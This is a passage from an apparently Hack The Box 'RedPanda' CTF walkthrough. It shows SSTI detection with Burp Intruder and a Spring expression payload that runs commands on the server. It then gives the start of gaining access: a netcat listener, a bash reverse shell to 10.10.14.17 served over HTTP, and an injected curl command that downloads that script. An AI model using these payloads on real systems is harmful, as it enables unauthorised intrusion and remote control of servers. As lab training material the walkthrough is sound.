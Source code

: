 ![Image](/assets/img/WriteUp/HTB/RedPanda/Pasted image 20240520081607.png){: width="700" height="400" }
Next we have to configure the payload. Paste the following SSTI payloads into the payload list.
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

![Image](/assets/img/WriteUp/HTB/RedPanda/Pasted image 20240520081655.png){: width="700" height="400" }

Everything is set in Burp Intruder. We only have to hit the `Start attack` button and check the results.

![Image](/assets/img/WriteUp/HTB/RedPanda/Pasted image 20240520081805.png){: width="700" height="400" }

So we have identified the SSTI vulnerability. Now we have to find out how we can get a shell.

After searching for SSTI and Java Spring we found this [website](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-framework-java) on Google. There is a payload that will execute the `id` command.

```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

We can try the payload in the Burp Repeater to see if we get a response.

![Image](/assets/img/WriteUp/HTB/RedPanda/Pasted image 20240520093852.png){: width="700" height="400" }

We did get a response that tells us that the user `woodenk` with user id `1000` is running the command. Now we should try to get a reverse shell.

## Initial access

First we should start our netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ rlwrap nc -lvp 443
listening on [any] 443 ...
```
Next we create a reverse shell in a bash script. We will host the bash script on our python web server.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ nano rev.sh        

┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ cat rev.sh    
#!/bin/bash
bash >& /dev/tcp/10.10.14.17/443 0>&1

┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
We can then download the bash script with the following command.
```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('curl 10.10.14.17/rev.sh -o /tmp/rev.sh').getInputStream())}
```
